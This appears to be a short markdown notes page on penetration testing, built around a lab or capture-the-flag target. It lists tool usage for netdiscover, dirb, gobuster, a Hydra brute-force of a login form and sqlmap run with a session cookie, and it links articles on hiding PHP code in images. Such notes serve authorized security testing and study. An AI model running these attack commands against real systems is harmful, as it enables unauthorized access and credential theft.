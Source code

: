 # Pentesting

<dfn>Pentesting</dfn> is an authorized simulated attack on a computer system, performed to evaluate the security of the system.

## Links

*   [A Penetration Tester’s Guide to Postgres](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
*   [Code injection – a simple PHP virus carried in a JPEG image](http://php.webtutor.pl/en/2011/05/13/php-code-injection-a-simple-virus-written-in-php-and-carried-in-a-jpeg-image/)
*   [Injecting Malicious PHP In To An Image File : Injection And Execution](http://techyzilla.blogspot.ca/2012/07/injecting-malicious-php-in-to-an-image-file.html)

## Useful Commands

### Searching a range of IP Address

```text
root@kali:~# netdiscover -i eth2 -r 192.168.0.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.0.1     f8:1a:67:5a:fe:24      1      60  TP-LINK TECHNOLOGIES CO.,LTD
 192.168.0.100   a8:60:b6:3a:56:ce      2     120  Apple, Inc.
 192.168.0.101   e0:3f:49:14:a9:0d      1      60  Unknown vendor
```

## Useful Tools

### DIRB

Searches all the directory contents on a website

#### Usage

```text
dirb http://192.168.0.104/ /usr/share/wordlists/dirb/big.txt
```

#### Resources

*   <http://tools.kali.org/web-applications/dirb>
*   <https://github.com/seifreed/dirb>

### gobuster

Directory/file & DNS busting tool written in Go.

#### Resources

*   <https://github.com/OJ/gobuster>

### Hydra

Exploiting Username and Password forms.

#### Usage

```text
hydra 192.168.0.104 http-post-form '/imfadministrator/index.php:user=^USER^&pass=^PASS^:Invalid password' -L /root/usernames.txt -P /usr/share/wordlists/metasploit/password.lst -vV -t 10 -w 30 -o hydra-http-post-attack.txt
```

#### Resources

*   <http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html>
*   <http://tools.kali.org/password-attacks/hydra/>
*   <https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/>

### sqlmap

Used for doing SQL injection stuff.

#### Usage

When having to log into an PHPSESSIONID auth:

```text
sqlmap -u http://192.168.0.104/imfadministrator/cms.php?pagename=upload --banner --cookie="PHPSESSID=m0i2uapvsqlklug2tpe2a8cis2; security=low" -f
```
